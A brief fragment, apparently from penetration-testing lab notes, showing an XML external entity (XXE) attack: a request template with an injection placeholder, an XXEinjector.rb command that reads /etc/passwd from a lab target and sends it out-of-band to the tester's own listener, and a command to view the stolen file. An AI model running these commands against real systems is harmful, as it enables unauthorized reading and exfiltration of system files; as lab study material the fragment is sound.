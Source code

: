 ```http

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```
```ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter```<br/>
```cat Logs/10.129.201.94/etc/passwd.log```









